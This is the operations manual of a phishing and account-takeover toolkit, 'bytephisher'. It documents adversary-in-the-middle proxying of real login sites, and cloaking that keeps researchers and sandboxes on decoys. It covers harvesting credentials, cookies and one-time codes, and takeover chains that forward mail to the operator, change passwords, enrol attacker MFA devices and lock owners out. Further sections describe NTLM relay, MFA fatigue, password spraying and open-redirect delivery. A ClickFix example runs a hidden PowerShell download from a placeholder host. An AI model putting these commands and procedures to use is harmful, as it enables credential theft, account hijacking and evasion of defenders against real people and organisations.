


# Operations

An operator drives this tool through five movements. On launch the host is audited
(`--doctor`, `tools/lab_check.py`) and a campaign is prepared: a template is picked with
`-o` or a live site is fronted with `--proxy --upstream`, tagged with `--campaign` and
given a `--hook-path`. Serving begins when the local listener is up and a tunneler
(`-t cloudflared`) publishes it, with gating armed to keep researchers and scanners on the
decoy. Captures land in the SQLite store and are watched through the live TUI, the SSE web
dashboard, or the two-way Telegram channel, which is also where actions are triggered:
chains and takeover tasks run from the chat or the CLI, and a streamed one-time code is
pulled through with nothing watching it. Post-capture work runs the chains against the
vault record. The engagement closes on the operator's terms: `/panic` stops serving and
keeps the store, `/kill` wipes it, and `--export` writes the CSV or JSON the deliverable is
built from.

## Campaign lifecycle



| Stage | Entry point | What it produces |
|---|---|---|
| prepare | `--doctor`, `tools/lab_check.py --json`, `-o` / `--proxy`, `--campaign` | a READY host, a chosen template or phishlet, a campaign tag |
| serve | `-t <tunneler>`, `--proxy`, `--verify-first`, `--heartbeat-file` | a public URL, an armed gate, a served page |
| capture | live TUI, `--web-dashboard`, `--telegram`, `--sessions` | credentials, cookies, tokens, device dumps, live input |
| act | `--run-chain`, `--takeover`, `--auto-chain`, `/chain`, `/takeover` | per-task results, findings, errors on the session record |
| close | `--panic`, `--kill --yes`, `--export`, `--keep-days` | a stopped campaign, a wiped store, an exported deliverable |

## Serving

There are two serving modes, and they share the same gate, the same collect endpoints and
the same exit.

**Templates.** `-o` selects a static template by slug or index (`-o google`), `--list`
prints the catalog (808 templates ship under `templates/`), `--rotate` serves a random one
of a comma-separated slug list per request for an A/B split, and `--campaign` tags every
capture from the run.

**Reverse proxy.** `--proxy` fronts the real site and injects the capture hook. It needs
`--phishlet` (a YAML definition) or `--upstream HOST[:PORT]` (an inline phishlet with no YAML).
`--proxy-scheme` selects http or https to reach the upstream (default https), `--login-path`
names the login path, `--capture-cookies` lists the cookie names to harvest (`*` captures all),
`--inject-paths` is the regex set of paths that receive the hook, `--block-paths` is the set
never touched, and `--intercept PATH=FILE` / `--intercept-body PATH=TEXT` rewrite responses.
`--no-verify-tls` drops upstream certificate checks. `--impersonate PROFILE` makes the upstream
leg look like a real browser (chrome, firefox135, safari180, edge101; needs `curl_cffi`), and
`--no-impersonate` opts out. `--hook-path` moves the collector and hook routes off the default
`/__bh`; `--symbols fixed|random` controls the cookie and data-attribute names; `--hook-stealth`
is on by default and `--no-hook-stealth` turns the patched-fetch/XHR disguise off.

**Tunnel adapters.** `-t` starts a tunneler by name; `-t all` starts every adapter in the
registry at once; `-t none` (or `-m test`) keeps the run local.

| `-t` name | Transport | Public URL shape |
|---|---|---|
| `cloudflared` | HTTPS quick tunnel | `https://<random>.trycloudflare.com` |
| `ngrok` | HTTPS tunnel | `https://<id>.ngrok(-free).(app|io)` |
| `localhost_run` | HTTPS tunnel | `https://<id>.lhr.life` |
| `bore` | TCP tunnel | `bore.pub:<port>` |
| `pinggy` | TCP tunnel | `tcp://<host>:<port>` |

The banner advertises "6 tunnels"; the registry carries the five adapters above. A tunneler
that produced no URL reports its reason from its own log (a cloudflare 429/1015 prints as a
rate limit, not a bare failure). `--tunnels` lists the adapters and exits.

**Tunnel watchdog.** While serving, a watchdog checks the tunnel processes roughly every 10
seconds. A tunneler that exits mid-campaign prints a warning. `--tunnel-restart` brings it
back automatically (max 5 restarts each) and prints the new public URL.

**Serve and health flags.**

| Flag | Effect |
|---|---|
| `-p` / `--port` | local port (default 8080) |
| `--tls` | serve HTTPS (needs `--cert`) |
| `--cert PATH` | PEM cert; the key is read from the same path with `key` in its name |
| `--server-header NAME` | Server header on our own responses (default `nginx`; an empty value omits it) |
| `--heartbeat-file FILE` | write a heartbeat while serving |
| `--heartbeat-window SECONDS` | staleness window for the heartbeat (default 600) |
| `--heartbeat-check` | check the heartbeat and exit; stale means the campaign has stopped |
| `--tunnel-restart` | automatic tunneler restart (max 5 each) |
| `--doctor` | audit the host (templates, tunnelers, DB) and exit |

The listener answers `GET /health` with `200 ok` (plain text). That route is served without
the collector, so a monitor never gets the hook.

## Gating and decoys

Every gate is evaluated on the visitor's request, before a page is chosen. A refused visitor
goes to the decoy.

| Control | Flag | What it stops |
|---|---|---|
| Country allow | `--allow-country IN,US` | visitors outside the listed ISO codes (fail-closed: no geo data means no service) |
| Country block | `--block-country RU,CN` | visitors from the listed ISO codes |
| Datacenter | `--block-datacenter` | hosting and datacenter networks (kills most scanners) |
| ASN allow | `--allow-asn 64500` | autonomous systems not on the list (fail-closed) |
| ASN block | `--block-asn 16509` | the listed autonomous systems |
| Active hours | `--active-hours 9-18` | visitors outside the local hour window |
| Active days | `--active-days mon-fri` | visitors outside the listed weekdays |
| Rate cap | `--max-hits N` | one IP after N hits per hour (default window 3600s) |
| Device cap | `--max-hits-per-device N` | one device token after N requests (a NAT'd office is many victims) |
| Bot gate | `--bot-gate SCORE` | visits whose JA3 + user agent + browser dump score at or above SCORE |
| Detonation ranges | `--detonation-asn` / `--detonation-cidr` | sandbox and detonation networks |
| Researcher blocklist | `--block-researchers` `--blocklist-file PATH` | known scanners, vendors, VPN and Tor exits |
| Cloak pass | `--cloak` | one switch: refuse researcher networks and never show our page to a detonation range |

`--geo` must be `ipapi` or `ipinfo` for country and datacenter gating; with `--geo off` there
is no geo data and the gate blocks everyone. `--scanners` lists the visits the bot gate
refused, with the evidence.

**The decoy.** `--decoy URL` sets where gated-out visitors go; without it they receive an
inert 503 page. `--decoy-mode real|page|url` selects the shape: `real` mirrors the upstream so
a scanner sees a copy of the site and has nothing to report, `page` serves a static decoy, and
`url` redirects to `--decoy`. The decoy is served without the collector script and without our
session cookie.

**The researcher blocklist.** `--block-researchers` arms the built-in lists. `--blocklist-file`
adds an operator list. A file alone arms nothing; behaviour that depends on leftover state is
not predictable, so the built-in lists are tied to the flag.

| Signal | Source | Examples |
|---|---|---|
| address ranges | built in | Shodan, Censys, Googlebot, bingbot, BinaryEdge, Shadowserver |
| user agent | built in | `CensysInspect`, `zgrab`, `nuclei`, `python-requests`, `curl/`, `HeadlessChrome`, `SemrushBot` |
| organisation | built in | security vendors, cloud and hosting, commercial VPNs and Tor |
| operator list | `data/blocklist.txt` | `acme-security`, `ua:my-scanner`, `ip:203.0.113.9`, `net:198.51.100.0/24` |

The refusal is recorded with the reason and the matched entry
(`known scanning range (censys, 162.142.125.0/24)`). An operator's own `curl` or `urllib`
check carries a scanner user agent and receives the decoy while the filter is armed; use a
browser or add an exception.

**The pre-serve challenge.** `--verify-first` puts a brand-neutral interstitial in front of
the page in proxy mode. A first visit gets the interstitial, not the clone. Only a visitor
that interacts and passes the passive tells receives a signed token for the real page, so a
scanner that runs no JavaScript, or runs it without interacting, never reaches the page.
`--verify-brand NAME` labels the interstitial (default: none), and `--verify-ttl SECONDS`
sets how long a passed challenge stays valid (default 900).

**The cloak pass.** `--cloak` is the single switch that combines the researcher refusal with
the detonation-range rule: researcher networks are refused, and our page is never shown to a
detonation range.

## The operator surface

**The TUI dashboard.** While serving on a TTY, a full-screen dashboard reads the capture
store on every refresh (1.5s) and shows the 40 most recent captures with running stats.
`--no-tui` prints a compact plain table instead; the plain path is also selected when stdout
is not a TTY.

**The web dashboard (SSE).** `--web-dashboard` starts a Flask dashboard on
`127.0.0.1:8090` (`--web-port` changes the port). Routes: `/` (live table), `/api/captures`,
`/api/stats`, and `/stream`, a Server-Sent Events feed that pushes `capture` events as they
land and a `stats` event roughly every 3 seconds, with a `: keepalive` comment between them.
The page uses `EventSource` and falls back to polling if the stream drops. `--api-token TOKEN`
gates every route on `?token=` or an `X-Api-Token` header; binding the dashboard anywhere but
loopback without a token prints a warning.

**The Telegram control channel.** `--telegram TOKEN:CHAT_ID` sends every capture to a bot chat.
`--telegram-c2` turns the same chat into a two-way command channel.

```bash
./.venv/bin/python bytephisher.py --proxy --upstream login.example.com \
    --telegram "TOKEN:CHAT_ID" --telegram-c2
```

| Command | Answers with |
|---|---|
| `/stats` | captures, credentials (and credible), visitors, sessions - campaign-scoped; blocked is database-wide and says so |
| `/sessions [n]` | newest sessions: sid, state, ip, geo, creds, cookie count |
| `/session <sid>` | credentials, tokens, cookies, device token, timeline |
| `/live <sid>` | latest value per field from the live stream, codes flagged |
| `/otp <sid>` | the input seen in that stream, in order, with timings |
| `/takeover <sid> [task]` | runs the session's takeover task, reports the steps |
| `/chains` | list the chains |
| `/chain <sid> [name]` | run a chain against a session |
| `/lures` | each lure: token, kind, opens/max, state |
| `/block <ip>` / `/blockip <sid>` / `/unblock <ip>` | edit the blocklist and reload the gate |
| `/tier0 <sid>` | root-of-trust posture: which paths the session's identity opens |
| `/replay <sid>` | can this session's token set be replayed from here, or is it dead |
| `/panic` / `/kill` | stop serving; stop and wipe |
| `/help` | the registry, generated from what is registered |

The channel enforces: only the operator chat may command the bot (any other chat is ignored
and nothing is sent back); a failing command reports itself instead of dying inside the poll
loop; the poll loop survives a dead network (a transport error is logged, the loop sleeps and
retries); and long output is split on line boundaries under Telegram's 4096-char limit.

**Alerts and their action buttons.** An alert carries the follow-up as inline buttons.

| Alert | Buttons |
|---|---|
| `session` | Takeover, Live, Session, Block IP |
| `otp` | Show codes, Takeover, Live, Session, Block IP |
| `creds` / `live` | Takeover, Live, Session, Block IP |
| anything else | none (there is no session to act on) |

`--webhook URL` POSTs every capture as JSON to a URL (Discord, Slack, n8n). A streamed
one-time code needs no operator: if the session has a pending credential POST, the proxy
replays it upstream with the code and the session is captured the moment the site accepts it.

## Post-capture chains

A chain is a named sequence of browser tasks run against the vault record. Each task reports
its own steps, extracted values and errors, so a site whose UI differs shows which step
failed. `ok` is true only when no task produced an error.

| Chain | Tasks | What it establishes |
|---|---|---|
| `recon` | probe, profile, links | access is real; who the account is; every link |
| `inbox` | probe, inbox-subjects, mail-hunt | the mailbox is readable; high-value mail is found |
| `takeover` | probe, mail-forward, app-password, mfa-add | the forwarding, app-password and MFA surfaces are reachable |
| `lockout` | probe, sessions-kill | the active-sessions page is reachable |
| `own` | probe, forward-submit, password-change, sessions-kill | the account is taken over: forwarding, password change, active sessions |
| `full` | probe, profile, links, inbox-subjects, mail-hunt, mail-forward, app-password, mfa-add, forward-submit, password-change, mfa-enroll | the whole picture in one run |

```bash
./.venv/bin/python bytephisher.py --chains                 # list them
./.venv/bin/python bytephisher.py --run-chain SID          # recon
./.venv/bin/python bytephisher.py --run-chain SID:inbox    # or --chain-name inbox
./.venv/bin/python bytephisher.py --run-chain SID:full --chain-json out.json
./.venv/bin/python bytephisher.py --auto-chain full        # run it the moment a session lands
```

`--chains` lists the chains, `--run-chain SID[:CHAIN]` runs one (default `recon`),
`--chain-name NAME` names the chain when the id and name are not colocated, `--chain-json PATH`
writes the result (tasks, findings, errors) as JSON, and `--auto-chain NAME` runs a chain
automatically the moment a session is captured.

What each acting task changes on the account:

| Task | Change |
|---|---|
| `mail-forward` | opens the forwarding settings and reports the rule form |
| `forward-submit` | creates a mail forwarding rule to the operator address |
| `app-password` | opens the app-password / API-key page and reports what is offered |
| `mfa-add` | opens the MFA device page and reports the enrolment surface |
| `mfa-enroll` | starts MFA enrolment (adds a device the owner does not control) |
| `password-change` | changes the account password to the campaign's new password |
| `sessions-kill` | opens the active-sessions page (locks the owner out) |
| `mail-hunt` | extracts the mailbox text and scans it for the terms that matter |

The keyword hunt reports each hit with the line it came from
(`invoice INV-20431 from Acme is due`), never a bare boolean. The takeover tasks visit
`{mail}`, `{settings}` and `{security}`, which default to paths on the session's home page; a
session's `meta` overrides them:

```json
{"meta": {"home": "https://mail.example.test/",
          "mail": "{home}/u/0/inbox",
          "security": "https://accounts.example.test/apps",
          "operator": "collect@example.test"}}
```

## Pressure operations

Four capabilities that end engagements. None is a bypass of a configured control; each is
the reason the control is configured. Every module reports the control that stops it before
the attempt.

| Capability | Flags | The control that stops it |
|---|---|---|
| ESC8 NTLM relay over HTTP | `--relay-plan TARGET_URL`, `--relay-start TARGET_URL`, `--relay-listen PORT` (80 for WebClient), `--coerce-plan` | Extended Protection for Authentication (EPA) on the enrolment endpoint; HTTPS with channel binding; WebClient disabled (kills the UNC trigger); NTLM disabled on the CA or enrolment moved to HTTPS-only; tier separation |
| Token keep-alive | `--token-keepalive SID`, `--keepalive-interval SECONDS` (default 1800); the polling form `--keepalive SID --interval 300 --iterations 12` | a device-bound token (the exchange is refused; `core.dbsc` says so before the daemon starts); CAE revocation (minutes); an admin revoking the refresh tokens and the app consent; the tenant's absolute refresh lifetime (~90 days) |
| MFA fatigue | `--fatigue-plan` | number matching (the Entra default; the user types a digit shown in the app, so there is no prompt to approve); an MFA prompt limit; a "report suspicious activity" policy; a user who reports the first prompt |
| Lockout-aware spray | `--spray-plan`, `--spray-users FILE`, `--spray-threshold N` (default 5; the budget is N-1) | it is loud - many failed sign-ins across many accounts in one window is the detection every tenant has; Entra smart lockout escalates the lockout duration on repeats; the run stops on the first lockout |

The relay holds one authentication open per exchange and hands the target's answer straight
back to the client, so the CA issues the certificate to whoever asked. The coerce trigger has
three paths: a document that resolves a UNC path (`\\host@80\x`, WebClient sends the auth over
HTTP), an RPC coercion (EFSRPC / MS-RPRN / DFS), or the lure itself (the collector is already
in the victim's browser). State is written atomically on every keep-alive rotation, so a
restart resumes with the token that is actually current. Spraying inverts the lockout
problem: one password across many accounts, slowly enough that no single counter gets close.

## Delivery extras

**ClickFix paste layer.** `--clickfix-command CMD` sets the command the page copies,
`--clickfix-platform windows|macos|linux` selects which steps the page shows (default windows),
and `--clickfix-out FILE` writes the page. The page provides the fake verification step, the
clipboard write, the platform-specific instructions, and the beacon that reports the copy and
the paste at the campaign's own `/__bh/beacon`. The module refuses to render a page with an
empty command; the payload is the operator's.

```bash
./.venv/bin/python bytephisher.py --clickfix-command 'powershell -w hidden -c "iwr http://x"' \
                 --clickfix-platform windows --clickfix-out ./lure/verify.html
```

The single most reliable detection is egress: the request leaves through the interpreter, so
it does not carry the browser's user agent or its TLS fingerprint.

**PWA lure.** `--pwa` serves an installable page - a manifest plus the worker the collector
already ships - so the icon reopens the lure from the home screen with no new message.
`--pwa-name NAME` sets the icon label (default: the campaign name). The install prompt needs a
real user gesture and a top-level secure context, so it works only over HTTPS from a real
hostname.

**QR and .ics invites.** `--mail-qr` embeds the lure URL as an inline QR image, so the URL is
never in the body text. `--mail-ics` attaches a calendar invite whose URL and LOCATION carry
the lure, written as a valid VEVENT with RFC 5545 line folding.

**Redirectors and the pool.** `--hop NAME[,NAME]` wraps the lure URL in open-redirect hops
(innermost first), so the message carries a trusted domain, not ours. Known hop names include
`google`, `microsoft-safe-links`, `facebook-l`, `linkedin`, `zoom`, `atlassian`, `youtube` and
`hackerone`. `--verify-chain URL` follows a chain with redirects disabled and reports each hop,
whether the destination is hidden, and any dead hop. The pool holds hostnames and tunnel URLs
in a file with a state: `--pool FILE` points at it, `--pool-add NAME[,NAME]` adds entries,
`--pool-next` hands out the next `ready` hostname, `--pool-burn NAME[,NAME]` marks entries
`burned` so they are never handed out again, and `--pool-status` prints the pool. States are
`ready`, `in_use`, `cooling`, `burned`; the file is `pool.json` under the campaign home, which
is on the wipe list.

**The mailer.** `--mailto ADDR[,ADDR]` emails the live phish link over SMTP after the tunnels
come up. `--mail-template` selects the template (`password_reset`, `security_alert`,
`shared_doc`, `invoice`), `--mail-from-name` sets the From display name, `--mail-reply-to`
sets Reply-To, `--mail-to-name` sets the To display name, and `--mail-thread MESSAGE-ID` places
the message inside an existing thread via In-Reply-To and References. `--mail-attach PATH[,PATH]`
attaches files with the MIME type derived from the extension, and `--mail-pacing MIN-MAX`
sleeps a random interval between messages. `--pretext NAME` uses a message story that brings
its own subject, body, required fields and follow-up script (`--pretext-list` prints them),
`--targets FILE` pre-fills the page and writes the mail per target from a csv/tsv/json list,
`--sender-check DOMAIN` preflights a sending domain from DNS (A/MX, SPF, DKIM, DMARC,
spoofability), and `--lookalike DOMAIN` prints lookalike domain candidates with a plausibility
score.

## Field test

The end-to-end acceptance run on a real host. Each step either proves a capability or reports
that the host cannot support it. When something fails, the output of the step is the report -
every failure path prints its reason.



0. Host capability: `./.venv/bin/python tools/lab_check.py --json` then
   `./.venv/bin/python bytephisher.py --doctor`. `VERDICT: READY` means every required check
   passed; `BLOCKED` names the checks and the fix. The browser check matters most: a browser
   that renders a `data:` URL but cannot open a socket to a live host makes the browser tasks,
   the takeover path and any live view unverifiable.
1. Static campaign, end to end:
   ```bash
   ./.venv/bin/python bytephisher.py -o google -t none --campaign test1 --port 8080
   # open http://127.0.0.1:8080/ , submit the form
   ./.venv/bin/python bytephisher.py --sessions
   ./.venv/bin/python bytephisher.py --export /tmp/out.csv --campaign test1
   ```
   Look for the credential in `--sessions` and in the export; the collector routes answered
   (no 404); the timeline has `opened` -> `creds`.
2. AiTM proxy with the stealth defaults:
   ```bash
   ./.venv/bin/python bytephisher.py --proxy --upstream <real-host> --port 8080 \
       --symbols random --verify-first -t cloudflared
   ```
   Look for, in order, the console printing the impersonation it chose and the random symbol
   names; a first visit getting the interstitial; the clone served with the hook after the
   page reports back; a wrong password still getting the real site's error; the session in
   `--sessions` with its cookies.
3. Device-code and the vault:
   ```bash
   ./.venv/bin/python bytephisher.py --devicecode microsoft --dc-client-id <your-app> \
       --dc-tenant <your-tenant> --port 8080
   ```
   Look for the code and the real provider URL printed; after the target approves,
   `*** DEVICE CODE APPROVED ***` and `vault : saved as dc-<tag> (valid=True, ...)`. Restart
   and confirm the token is still there with `./.venv/bin/python bytephisher.py --sessions`.
   If the tenant refuses, the refusal prints verbatim (`unauthorized_client`): that is the
   tenant blocking the grant, not a bug.
4. A restart must not lose a session: start the proxy and load the page once; kill the process
   outright (`kill -9`); start it again and expect `resume : restored N session(s)`; load the
   page with the same browser and confirm the same session id with its cookies and credentials
   attached.
5. The record says what was got:
   ```bash
   ./.venv/bin/python bytephisher.py --sessions
   ./.venv/bin/python bytephisher.py --session <sid>
   ```
   An action that produced nothing is recorded as `unproven`, never as success.
6. The panic path: send `/kill` (wipes the captured data and stops serving) or `/panic` (stops
   only) from Telegram. Confirm on the host that the database file no longer contains the
   captured plaintext afterwards (`grep -a` the secret in the `.db` and the `-wal`).

## Cleanup and evidence

**Retention.** `--keep-days DAYS` drops live-input rows older than the cutoff. It runs on
every invocation that opens the store, so it doubles as a cleanup command
(`--keep-days 7 --sessions`) rather than only firing at campaign start. `--live-purge SID`
deletes one session's live keystroke and field stream.

**The panic stop.** `/panic` from Telegram, or `--panic` from the console, stops serving and
keeps the store. The panic handlers live outside the control-channel block, so a console
operator has a panic path without Telegram.

**The data wipe.** `/kill` or `--kill --yes` stops serving and wipes the store. The wipe drops
captures, visitors, sessions, intel, live_input, blocked and lures, then runs
`PRAGMA wal_checkpoint(TRUNCATE)` and `VACUUM` so the plaintext does not survive in the WAL.
`--kill` without `--yes` prints what it would do and exits.

```bash
./.venv/bin/python bytephisher.py --kill --yes     # wipe and exit
./.venv/bin/python bytephisher.py --panic          # stop serving, keep the store
```

**The export.** `--export PATH` writes every capture in the campaign and exits; a `.json`
extension selects JSON, anything else selects CSV.

| Format | Contents |
|---|---|
| CSV | header `ts, campaign, source_url, ip, city, country, isp, device, is_cred, risk, risk_reasons, fields`; UTF-8 BOM |
| JSON | `exported_at`, `stats`, `intel_stats`, `campaigns`, `captures`, `devices` |

Related exports: `--session-export SID PATH`, `--intel-export PATH` (every device dump), and
`--ab-summary` (click and credential rate per arm). `--reuse` reports credential-reuse findings
across the database. The wipe removes the capture, session, intel, live-input, blocked and lure
rows; the exported CSV and JSON are files the operator owns, outside the store.
